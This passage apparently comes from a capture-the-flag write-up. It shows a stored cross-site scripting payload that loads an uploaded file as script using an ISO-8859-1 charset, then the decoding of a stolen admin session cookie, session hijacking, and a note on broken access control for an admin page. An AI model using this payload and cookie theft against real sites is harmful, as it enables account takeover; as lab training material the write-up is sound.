 Upload the image and to get image link

- The `charset` for `<script>` needs to be `ISO-8859-1` in order to work

Payload :

```javascript
Hello There !
<script charset="ISO-8859-1" src="/uploads/6565bfd29dba51701167058646034"></script>
```

Got the admin's cookie

![](attachment/eef3b18fe7c81b42f787f42cc6caa982.png)

```bash
┌──(bravosec㉿fsociety)-[~]
└─$ echo 'UEhQU0VTU0lEPXJsdXFhcDBmOXBwaTlraDc4Y25yc3Vrdjg3'|base64 -d
PHPSESSID=rluqap0f9ppi9kh78cnrsukv87
```

Change to the cookie in browser

![](attachment/f0b20bb740e69002e14d7524735fe85b.png)
##### Unintended - Broken access control for /admin/map.php

The page doesn't restrict access from normal users, but send `302` redirect to `/login.php` instead

![](attachment/7d0cb95dbea741dd2ce98cbaff73006e.png)
